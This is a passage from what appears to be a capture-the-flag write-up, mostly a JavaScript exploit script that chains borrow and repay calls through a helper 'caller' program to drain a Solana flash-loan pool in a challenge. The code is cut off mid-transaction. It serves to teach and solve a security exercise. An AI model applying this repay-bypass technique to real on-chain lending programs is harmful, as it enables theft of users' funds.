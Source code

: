 - The instruction calls:
    borrow(50), repay(0) with the caller program, borrow(50), repay(50) to our program
    By the end we end up with 50 tokens in our account, we could then repeat this to steal all the balance from the pool.

```js
// all player code goes here
async function attack() {

    console.log(accounts);

    // pool balance
    let poolAccount = await spl_token.getAccount(conn, accounts.poolAccount);
    console.log(`Pool amount: ${poolAccount.amount}`);

    // player token account
    let playerTokenAccount = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.atomcoinMint, player.publicKey));
    console.log(`Player amount: ${playerTokenAccount.amount}`);
    
    // caller program
    const callerProgramId = "3dxs6HNWYRGW3LTQygqJaJDYhbGEfA8NR1HKEbpi6rZ6";
    const callerIdl = JSON.parse(fs.readFileSync("../chain/target/idl/caller.json"));
    const callerProgram = new anchor.Program(callerIdl, callerProgramId, "caller program");
    // console.log(callerProgram);

    // list storing all the txns
    const txn = new anchor.web3.Transaction();

    // borrowing 50 
    txn.add(program.instruction.borrow(new BN(50), {
        accounts: {
            player: player.publicKey,
            user: player.publicKey,
            state: accounts.state,
            pool: accounts.pool,
            poolAccount: accounts.poolAccount,
            depositorAccount: playerTokenAccount.address,
            instructions: SYSVAR_INSTRUCTIONS_PUBKEY,
            tokenProgram: TOKEN_PROGRAM_ID
        }
    }));

    // call to repay instruction via our caller program
    txn.add(callerProgram.instruction.callRepay({
        accounts: {
            chall3: accounts.programId,
            player: player.publicKey,
            user: player.publicKey,
            state: accounts.state,
            pool: accounts.pool,
            poolAccount: accounts.poolAccount,
            depositorAccount: playerTokenAccount.address,
            tokenProgram: TOKEN_PROGRAM_ID,
        }
    }));

    // borrowing 50
    txn.add(program.instruction.borrow(new BN(50), {
        accounts: {
            player: player.publicKey,
            user: player.publicKey,
            state: accounts.state,
            pool: accounts.pool,
```